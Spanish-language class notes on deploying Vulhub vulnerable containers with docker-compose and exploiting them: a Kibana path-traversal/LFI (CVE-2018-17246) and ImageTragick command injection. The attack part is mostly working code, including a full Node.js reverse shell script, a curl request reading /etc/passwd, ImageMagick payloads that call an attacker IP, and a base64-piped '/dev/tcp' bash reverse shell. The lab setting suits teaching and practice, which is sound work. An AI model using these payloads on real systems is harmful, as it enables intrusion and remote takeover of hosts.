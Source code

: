 # Despliegue de máquinas vulnerables con Docker-Compose

Tags: #Docker #Comandos #Linux 

A continuación, os proporcionamos el enlace al proyecto de Github que estamos usando para esta clase:
-   **Vulhub**: [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)
Asimismo, por aquí os compartimos el enlace al recurso donde se nos ofrece el script en Javascript encargado de establecer la Reverse Shell:
-   **NodeJS Reverse Shell**: [https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

Desplegaremos una maquina Kibana con su vulnerabilidad 
* **Kibana** es una interfaz de usuario gratuita y abierta que permite visualizar los datos de ElasticSearch y navegar en el Elastic Stack
* **Elasticsearch** 
* **Elastic Stack**  

```bash 
❯ svn checkout https://github.com/vulhub/vulhub/trunk/kibana/CVE-2018-17246   # Para clonar una subcarpeta de Github y en donde dice '/tree/master' quitarlo de la url y colocar **/trunk** y el resto de la url
❯ docker-compose up -d                      # Para poder desplegar el contenerdor una vez descargada
❯ docker port cve-2018-17246_kibana_1       # Miramos el puerto que esta usando para ese servicio en especifico
```

Web **localhost:5601** Para poder ver el servicio web de Kibana

```bash 
❯ curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../etc/passwd"
	# X -> Es el metodo que queremos tramitar GET
	# s -> modo silence

❯ docker-compose logs                  # Para mirar los logs en Docker pero debes de estar dentro del contenedor 
❯ docker-compose exec kibana bash      # Para ingresar al Kibana
	❯ cd /tmp                         # Este dir tiene privilegios de lectura y escritura
	❯ nvim reverse.js
		(function(){
		    var net = require("net"),
		        cp = require("child_process"),
		        sh = cp.spawn("/bin/sh", []);
		    var client = new net.Socket();
		    client.connect(443, "172.17.0.1", function(){
		        client.pipe(sh.stdin);
		        sh.stdout.pipe(client);
		        sh.stderr.pipe(client);
		    });
		    return /a/; // Prevents the Node.js application form crashing
		})();

# Con este archivo loque hacemos es que vamos a crear una ReverShell por un puerto y nuestra IP (172.17.0.1) pero seria la del 'docker0', despues solo nos pondriamos en escucha por Netcat en el puerto 443
❯ ifconfig docker0          # Miramos la IP de la interface docker0

❯ curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../tmp/reverse.js"
❯ nc -nlvp 443              # Para ponernos en escucha por Netcat en espera de la revershell para Linux
```

****

Desplegaremos otra maquina llamada **ImageMagick** con su vulnerabilidad 
-   **Proyecto de Github**: [https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick](https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick)

Este proyecto se encarga de procesar contenido multimedia 
```bash 
❯ svn checkout https://github.com/vulhub/vulhub/trunk/imagemagick/imagetragick # Para clonar una subcarpeta de Github y en donde dice '/tree/master' quitarlo de la url y colocar **/trunk** y el resto de la url
❯ docker-compose up -d                  # Para poder desplegar el contenerdor una vez descargada
❯ docker port imagetragick_web_1        # Miramos el puerto que esta usando para ese servicio en especifico y nos muestra el 8080
```

Web **localhost:8080** Para poder ver el servicio web de Imagetragick

Podemos usar BurpSuite con otro puerto para poder interceptar la comunicacion y asi en el campo de la extension del archivo a subir, modificarlo y ver que tipo de archivos acepta. Esto se haria con un ataque de fuuerza bruta en el Intruder y con una expresion regular en **Options > Grep-Match** podemos seleccionar **Add** y despues la expresion o el texto que queremos que nos haga match en la respuesta 

Podemos colocar este contenido en el archivo '.jpg' en Burpsuite y poder explotar la vulnerabilidad
```bash 
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?|curl "172.72.0.1/testingRCE")'
pop graphic-context
```

```bash 
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Ahora podemos hacer la ReverShell 
```bash
❯ nvim file.gif

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo tqergqerbash64revershell | base64 -d | bash`"||id " )'
pop graphic-context
```

Después del comando 'echo' colocaremos la ReverShell pero que fue codificada en base 64
```bash
❯ echo -n "/bin/bash -i >& /dev/tcp/172.72.0.1/4646 0>&1" | base64          # Nos regresara la Revershell codificada 
```